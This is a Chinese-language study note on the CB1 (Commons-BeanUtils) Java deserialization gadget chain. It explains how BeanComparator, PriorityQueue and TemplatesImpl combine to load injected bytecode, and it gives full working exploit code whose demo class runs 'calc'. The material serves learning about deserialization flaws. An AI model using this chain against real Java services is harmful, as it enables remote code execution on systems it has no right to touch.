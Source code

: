 ## 环境搭建：

```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.2</version>
</dependency>
```

##  分析

补充知识点：

CC链用到的Commons-Collections是对集合的封装和补充，CB链的commons-beanutils是应用于javabean的工具。

什么是JavaBean？https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680

>1.有一个public的无参数构造函数。
>2.属性可以透过get、set、is（可替代get，用在布尔型属性上）方法或遵循特定命名规则的其他方法访问。
>3.可序列化

而commons-beanutils中提供了一个静态方法 PropertyUtils.getProperty ，让使用者可以直接调用任 意JavaBean的getter方法：

![image-20221021103907453](img/image-20221021103907453.png)

如果我们`bean=new User()`，name为`username`属性,这个方法就是调用`User`类下`username`属性的getter方法



我们在CC2链中用到`PriorityQueue`这个类，CB1链也是一样的，触发点就是调用`comparator.compare`方法。

CC2中我们用到了`org.apache.commons.collections4.comparators.TransformingComparator`

CB1我们需要用到`org.apache.commons.beanutils.BeanComparator`

直接看它的`compare`方法

![image-20221021103343548](img/image-20221021103343548.png)

调用`PropertyUtils.getProperty`，这样我们可以任意调用某个`JavaBean`的getter方法

在`TemplatesImpl`中，触发恶意链的POP：

![image-20221021104249773](img/image-20221021104249773.png)

这个可以从`getOutputProperties()`开始或者`newTransformer()`开始

所以当我们`this.property`设置为`outputProperties`（第一个o小写）,传进来的`o1`和`o2`设置为`TemplatesImpl`，这样就可以直接触发了，加载恶意字节码。

##  payload

```java
package cc.cb;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class payload {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.get(test.class.getName());
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        BeanComparator beanComparator=new BeanComparator("outputProperties");
        PriorityQueue priorityQueue=new PriorityQueue(2,beanComparator);
        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        setFieldValue(priorityQueue,"size",2);

        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        ByteArrayInputStream bois=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bois);
        Object o=ois.readObject();
    }
}

```

test类：

```java
package cc.cb;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class  test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
        System.out.println(123);
    }
}
```

